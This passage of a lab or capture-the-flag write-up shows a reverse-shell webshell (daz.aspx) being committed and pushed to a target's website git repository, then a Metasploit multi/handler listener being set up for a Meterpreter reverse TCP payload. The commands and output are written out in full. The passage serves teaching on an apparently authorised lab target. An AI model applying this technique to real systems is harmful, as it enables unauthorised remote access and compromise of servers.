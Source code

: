 We'll now put our reverse shell within the same directory as the website assets, if it wasn't already.

You'll see that there is no need for us to initialize this git repository, as the folder has already been preconfigured if you run `ls -la`. The `.git` submodule indicates that to us.

```
└─$ ls -la 
total 44
drwxrwxr-x 4 daz daz  4096 Jun  3 21:31 .
drwxrwxr-x 4 daz daz  4096 Jun  3 21:23 ..
drwxrwxr-x 8 daz daz  4096 Jun  3 21:23 .git
drwxrwxr-x 6 daz daz  4096 Jun  3 21:23 assets
-rw-rw-r-- 1 daz daz    43 Jun  3 21:23 changelog.txt
-rw-rw-r-- 1 daz daz  2906 Jun  3 21:32 daz.aspx
-rw-rw-r-- 1 daz daz 15708 Jun  3 21:23 index.html
-rw-rw-r-- 1 daz daz   130 Jun  3 21:23 readme.md
```

Next, we can add all of the new additions to the repository (being our reverse shell and the README.md file) and commit them to the branch. We will then push to the main branch and the files should be uploaded correctly.

```
└─$ git add -A; git commit -m "DaZ Commit 1"

└─$ git push origin main                    
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.32 KiB | 1.32 MiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.69.193:3000/ellen.freeman/website
   73cdcc1..9dac976  main -> main
```

Before we execute the file, we'll start up `msfconsole` and configure the listener based on our payload. We're using a meterpreter payload, so we'll need to set that up in `exploit/multi/handler`.

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.8.0.173
LHOST => 10.8.0.173
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.0.173:9001
```
